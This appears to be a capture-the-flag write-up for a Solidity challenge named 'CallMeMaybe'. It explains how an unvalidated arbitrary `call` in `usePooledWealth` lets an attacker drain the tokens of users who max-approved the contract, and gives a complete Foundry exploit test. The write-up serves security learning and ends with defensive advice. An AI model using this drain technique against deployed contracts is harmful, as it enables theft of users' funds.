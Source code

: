 # CallMeMaybe Solution
Hopefully you figure out that you can use the function `usePooledWealth` to call the `CallMeMaybe` smart contract. The line `_target.call(_calldata);` does not validate the target contract or the calldata. This allows us to call the ERC20 token and approve ourselves. Since we are making the call from the smart contract, we are approving the smart contract to allow us to spend it's tokens. To steal 600 tokens, first we need to transfer the tokens from the users who max approved the contract. Then we are free to approve ourselves to spend the tokens.

Here is my version of the exploit:
```
function test_GetThisPassing_2() public {
    address hacker = address(0xBAD);

    uint256 startBalance = token.balanceOf(hacker);

    vm.startPrank(hacker);

    // join the group
    token.approve(address(target), 1 ether);
    target.joinGroup(1 ether);

    // itterate through and transfer the other users' tokens to the contract
    for (uint256 i; i < users.length; i++) {
        address user = users[i];
        bytes memory _calldataTransfer = abi.encodeCall(token.transferFrom, (user, address(target), token.balanceOf(user)));
        target.usePooledWealth(_calldataTransfer, address(token));
    }

    // form our approve calldata
    bytes memory _calldataApprove = abi.encodeCall(token.approve, (hacker, type(uint256).max));
    
    // call the contract approving ourselves to spend the tokens
    target.usePooledWealth(_calldataApprove, address(token));

    // transfer out the tokens
    token.transferFrom(address(target), hacker, 601 ether);

    vm.stopPrank();
    assertGt(token.balanceOf(hacker), 300 ether);
}
```
To sumarize here is the steps we needed to complete the hack:

1. Join the group so we have access to call `usePooledWealth`.

2. Loop through each user transfering their tokens to the smart contract via `usePooledWealth`.

3. Use `usePooledWealth` to call `approve` on the ERC20 token.

4. Use `transferFrom` to steal the tokens from the contract.


I would like to point out that we stole address(0x03)'s tokens even though they were no longer a part of the group. This is why it is dangerous to max approve a smart contract!

This exploit is special to me as I found one in my first C4 challenge. Hopefully, you now know to check for similar bugs when you see a smart contract use `call` with user inputed calldata!